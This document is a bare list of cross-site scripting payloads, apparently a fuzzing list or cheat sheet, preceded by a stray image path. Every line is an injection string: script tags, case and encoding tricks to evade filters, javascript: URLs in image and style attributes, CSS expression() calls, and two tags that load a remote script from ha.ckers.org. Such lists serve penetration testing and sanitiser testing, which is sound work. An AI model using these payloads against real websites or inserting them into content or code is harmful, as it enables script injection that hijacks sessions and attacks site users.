 <script>alert("xss")</script>
<script>alert(1);</script>
<%00script>alert(1);</%00script>
SCRIPT>alert("XSS");///SCRIPT>
';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode<script>alert('xss')</script>
//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
'';!--"<XSS>=&{()}
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=javascrscriptipt:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
<IMG SRC=" &#14;  javascript:alert('XSS');">
<SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<<SCRIPT>alert("XSS");//<</SCRIPT>
<SCRIPT>a=/XSS/alert(a.source)</SCRIPT>
\";alert('XSS');//
</TITLE><SCRIPT>alert("XSS");</SCRIPT>
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
<DIV STYLE="width: expression(alert('XSS'));">
